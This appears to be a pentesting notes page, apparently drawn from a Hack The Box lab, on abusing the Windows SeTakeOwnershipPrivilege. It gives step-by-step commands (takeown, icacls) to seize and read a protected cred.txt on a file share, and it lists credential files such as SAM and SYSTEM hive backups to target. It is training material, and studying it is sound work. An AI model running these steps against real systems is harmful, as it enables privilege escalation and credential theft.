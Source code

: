 # SeTakeOwnershipPrivilege

## SeTakeOwnershipPrivilege

**SeTakeOwnershipPrivilege:** grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes.

> **This privilege assigns WRITE\_OWNER rights over an object, that’s meaning user can change owner in Security Descriptor for this object**

#### Who can take it ?

* Admins take it by default
* for Service Account has privilege to take **`VSS snapshots`** or **`Backup Jobs`**
* with another privilege like  `SeBackupPrivilege`, `SeRestorePrivilege`, and `SeSecurityPrivilege`

#### Severity

* access to sensitive data
* Remote Code Execution (RCE)
*   Denial-of-Service (DOS)

    > we can use it to exploit shared folder or sensitive files

***

## Exploit - **Leveraging the Privilege**

#### **Reviewing Current User Privileges**

```powershell
PS C:\irix> **whoami /priv**

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
**SeTakeOwnershipPrivilege**      Take ownership of files or other objects                **Disabled**
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

#### **Enabling SeTakeOwnershipPrivilege**

to use this privilege we must enable it

```powershell
 PS C:\irix> Import-Module .\Enable-Privilege.ps1
PS C:\irix> .\EnableAllTokenPrivs.ps1
PS C:\irix> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

#### **Choosing a Target File**

we'll target an interesting file found on a file share. search in public and private folder in sections like (IT, HR, Sales)

we find that all Domain Users can list the contents of certain subdirectories but get an `Access denied` message when trying to read the contents of most files. We find a file named `cred.txt` under the `IT` subdirectory of the `Private` share folder during our enumeration.

we will use `SeTakeOwnershipPrivilege`&#x20;

#### **Checking files Ownership**

we can’t to see the owner of this file

```powershell
PS C:\irix> **Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}**
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

#### **Checking folder Ownership**

we will back step to check the ownership of folder

```powershell
PS C:\irix> **cmd /c dir /q 'C:\Department Shares\Private\IT'**

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\**sccm_svc**  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

#### **Taking Ownership of the File**

Now we can use the **`takeown`** Windows binary to change ownership of the file.

```powershell
PS C:\irix> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

#### **Confirming Ownership Changed**

```powershell
PS C:\irix> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

#### **Modifying the File ACL**

We may still not be able to read the file and need to modify the file ACL using `icacls` to be able to read it.

```powershell
PS C:\irix> cat 'C:\Department Shares\Private\IT\cred.txt'

*cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.*
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Let's grant our user full privileges over the target file.

```powershell
PS C:\irix> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

***

#### **Files of Interest**

Some local files of interest may include:

```
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```
